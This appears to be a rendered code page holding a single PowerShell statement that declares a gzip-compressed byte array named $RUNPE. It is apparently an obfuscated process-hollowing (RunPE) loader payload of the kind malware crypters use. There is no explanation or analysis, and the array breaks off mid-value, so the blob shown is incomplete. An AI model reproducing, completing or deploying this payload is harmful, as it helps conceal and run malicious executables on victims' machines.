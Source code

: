 ``` powershell
[Byte[]] $RUNPE = @(31,139,8,0,0,0,0,0,4,0,237,189,7,96,28,73,150,37,38,47,109,202,123,127,74,245,74,215,224,116,161,8,128,96,19,36,216,144,64,16,236,193,136,205,230,146,236,29,105,71,35,41,171,42,129,202,101,86,101,93,102,22,64,204,237,157,188,247,222,123,239,189,247,222,123,239,189,247,186,59,157,78,39,247,223,255,63,92,102,100,1,108,246,206,74,218,201,158,33,128,170,200,31,63,126,124,31,63,34,214,77,177,188,72,95,95,55,109,190,56,252,141,19,255,207,241,211,34,187,88,86,77,91,76,155,238,87,175,214,203,182,88,228,227,179,101,155,215,213,234,117,94,95,22,211,28,205,126,227,100,153,45,242,102,149,77,243,244,69,222,158,151,197,187,223,56,249,197,191,113,146,210,179,90,79,202,98,154,78,203,172,105,210,47,170,203,34,151,207,245,107,60,63,94,231,23,69,181,76,63,122,221,214,235,105,219,124,228,190,250,158,124,244,60,187,174,214,237,150,252,248,189,138,229,108,252,58,255,69,235,156,240,201,202,81,250,50,155,190,77,63,75,119,222,237,222,249,190,123,117,85,23,151,89,155,167,13,67,72,95,214,21,33,219,156,45,207,171,122,145,181,212,159,107,234,225,194,111,10,202,117,158,205,170,101,121,157,210,128,95,182,181,129,240,237,108,57,43,243,195,91,189,242,102,142,79,110,245,198,186,88,58,36,103,221,198,58,150,176,181,64,15,26,255,146,159,13,210,189,110,179,186,93,175,222,131,116,140,222,235,226,7,189,65,119,199,65,61,128,195,94,229,13,113,83,62,219,189,101,251,167,121,243,182,173,86,183,108,253,166,104,123,228,255,222,23,89,221,204,179,242,184,217,250,106,185,200,150,217,69,62,123,115,189,202,199,79,174,127,146,62,173,235,236,122,196,35,56,169,150,77,203,36,218,219,191,243,253,126,31,147,235,54,255,222,247,211,47,138,102,122,19,58,202,20,102,176,123,183,108,255,186,157,157,45,87,235,246,246,205,191,92,183,239,213,254,180,174,171,58,206,69,63,158,47,103,34,158,16,115,251,169,145,216,227,151,103,190,180,62,45,203,179,197,170,170,219,173,143,222,230,245,50,47,239,237,141,103,101,249,17,145,50,39,78,108,90,238,137,168,73,140,149,199,57,142,248,107,154,230,239,72,197,44,133,141,136,92,235,69,46,188,190,165,56,207,229,207,59,135,62,82,223,116,239,147,170,42,211,239,86,87,159,238,211,235,210,33,49,67,75,223,26,52,90,254,112,148,18,154,196,2,83,249,242,135,128,212,255,219,240,97,34,125,254,255,50,164,254,95,132,15,216,248,39,11,210,161,164,89,202,178,154,158,190,179,140,204,166,129,145,73,179,25,73,90,211,200,31,101,190,188,104,231,242,123,75,122,73,126,91,213,85,155,79,127,150,177,149,41,173,139,54,87,115,244,69,190,168,234,107,131,242,74,62,20,132,38,89,147,31,27,188,85,21,78,214,231,231,121,173,223,243,239,208,163,35,82,60,231,242,25,53,107,0,191,205,151,63,132,145,188,162,217,126,207,129,88,76,111,51,18,192,31,30,198,178,37,252,63,100,12,232,231,167,174,96,163,86,63,89,228,87,95,158,191,38,6,32,221,123,211,40,126,8,148,61,33,65,178,76,114,188,165,214,54,91,173,200,5,96,55,225,5,121,133,35,99,133,167,213,130,236,236,236,121,177,164,207,66,228,143,91,106,50,89,19,49,237,55,34,165,222,23,161,49,227,254,139,229,60,39,54,18,247,138,94,101,115,49,5,82,212,247,179,50,187,112,224,242,229,101,81,87,203,5,249,61,14,161,117,93,211,223,79,139,154,40,74,124,33,243,218,119,118,48,116,243,145,180,233,251,146,102,36,222,71,152,0,131,238,13,86,244,105,94,230,23,68,74,223,243,53,116,159,233,119,17,146,255,254,230,189,31,145,126,152,244,113,58,118,141,131,35,229,77,86,98,51,220,168,37,252,166,128,247,52,89,15,240,55,172,210,6,209,25,82,74,183,70,232,70,232,161,185,236,193,253,250,118,243,134,249,235,153,189,91,15,233,107,219,191,65,140,122,238,111,159,12,206,15,222,60,174,174,199,248,77,177,100,212,61,126,127,224,113,253,184,146,96,82,45,207,101,85,204,82,202,65,24,101,247,38,171,47,242,246,101,134,217,86,202,191,204,174,203,138,200,225,64,116,194,83,16,180,64,48,215,137,141,174,230,69,153,167,91,69,250,56,189,239,189,29,129,128,7,80,48,32,102,22,14,13,187,240,240,196,180,25,250,94,230,87,145,239,182,124,114,152,39,166,236,12,136,254,119,81,16,77,49,6,247,209,75,52,57,151,121,221,142,223,84,95,209,180,220,219,219,210,8,152,191,255,242,124,11,210,82,157,111,245,81,187,115,39,6,184,173,175,251,31,70,136,133,39,110,181,188,143,117,76,3,214,45,244,51,98,200,224,41,206,211,173,223,213,53,221,242,249,67,88,102,124,186,88,181,215,198,48,141,127,138,178,88,157,63,206,179,178,33,73,165,9,149,103,63,253,25,252,113,32,127,117,26,47,215,101,41,82,221,20,242,115,85,220,233,112,143,121,6,8,131,135,132,163,186,226,225,159,190,155,230,171,193,153,196,227,5,230,254,3,134,60,39,14,86,77,68,212,124,82,180,58,223,121,77,51,46,19,174,226,129,241,221,59,25,36,35,68,100,65,233,144,39,164,218,110,132,228,247,250,9,224,238,111,128,235,100,95,231,27,159,237,188,123,114,239,251,3,239,104,107,106,179,243,125,201,82,209,44,116,211,38,230,193,252,235,252,8,199,227,133,253,247,159,143,65,235,237,190,81,244,135,237,124,247,155,33,162,224,97,190,181,47,108,173,138,177,159,53,28,89,117,57,48,18,60,27,70,131,231,125,56,12,207,0,151,13,124,156,147,200,188,55,145,55,251,73,157,175,149,220,55,248,86,209,175,111,36,124,248,214,255,247,168,15,113,205,39,239,136,68,78,88,246,30,14,9,84,199,101,25,180,93,120,134,189,205,206,87,58,61,27,188,211,222,87,27,117,120,216,26,83,162,127,153,57,193,120,161,108,14,68,235,6,62,24,137,188,124,106,13,244,207,145,74,166,145,120,106,244,179,192,249,125,111,132,54,250,218,254,183,58,23,155,125,243,216,183,55,9,138,247,78,100,70,252,193,165,191,43,115,213,255,155,5,166,97,143,231,12,211,243,222,22,238,254,206,38,203,41,144,191,77,188,151,215,55,219,225,30,236,65,235,201,206,118,70,193,208,213,151,4,172,46,102,64,156,189,149,129,23,6,226,167,224,115,101,150,161,80,43,252,124,211,168,9,202,153,231,50,248,47,70,152,197,138,197,200,159,8,246,74,216,201,34,17,30,166,49,177,98,216,219,38,102,251,217,21,241,13,177,98,247,59,99,193,54,68,151,253,239,54,42,201,78,243,8,153,125,50,141,76,104,100,72,174,28,250,255,14,85,9,185,17,45,244,229,249,121,147,195,59,236,74,198,179,131,1,152,205,156,114,154,228,138,47,38,121,109,149,89,92,242,118,63,29,150,188,79,135,112,166,40,136,20,57,97,1
```